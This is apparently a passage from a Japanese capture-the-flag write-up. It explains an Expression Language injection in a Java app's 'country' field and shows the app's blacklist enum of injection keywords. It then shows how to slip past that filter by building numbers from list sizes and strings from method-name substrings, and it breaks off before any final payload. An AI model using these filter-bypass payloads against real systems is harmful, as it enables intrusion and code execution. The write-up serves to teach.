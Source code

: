 - waf/AttackTypes.java

```java:AttackTypes.java
<SNIP>
public enum AttackTypes {
    SQLI("\"", "'", "#"),
    XSS(">", "<"),
    OS_INJECTION("bash", "&", "|", ";", "`", "~", "*"),
    CODE_INJECTION("for", "while", "goto", "if"),
    JAVA_INJECTION("Runtime", "class", "java", "Name", "char", "Process", "cmd", "eval", "Char", "true", "false"),
    IDK("+", "-", "/", "*", "%", "0", "1", "2", "3", "4", "5", "6", "7", "8", "9");

    @Getter
    private final String[] attackStrings;

    AttackTypes(String... attackStrings) {
        this.attackStrings = attackStrings;
    }

}
```

送信されるパラメータを確認すると、`country`以外は使えなさそう。  
他のパラメータは、`^[A-Z][a-z]{2,}$`を満たす必要がある。

`"country":"${[].getClass()}"`を指定すると、以下のようなレスポンスが帰ってくる。

```json
{"violations":[{"fieldName":"country","message":"class java.util.ArrayList is not a valid country"}]}
```

`${[].getClass()}`ではなく、`class java.util.ArrayList`になっている。  
このことから、ELインジェクションができることが分かる。

あとは、禁止されている文字を使わないようにコードを作れれば良い。

- 数値の生成

数値が直接は使えないので、以下のようにすると数値を作れる。

```java
[[],[],[]].size() // = 3
```

- 文字列の生成

`getMethods()`や`substring()`を使えば作れる。`getDeclaredMethods()`も可。  
`getMethods()`によって文字列が取得できるので、そこから必要な文字を抽出すればいいっぽい。そしてその後に`concat()`で結合する。  
大文字小文字は、`toUpperCase()`や`toLowerCase()`を使う。

具体的には以下のような感じ。

```java
// [].getClass().getMethods()[<数値>].toString().substring(<数値>,<数値>)
[].getClass().getMethods()[[[],[],[]].size()].toString().substring([[],[]].size(),[[],[],[]].size())
```
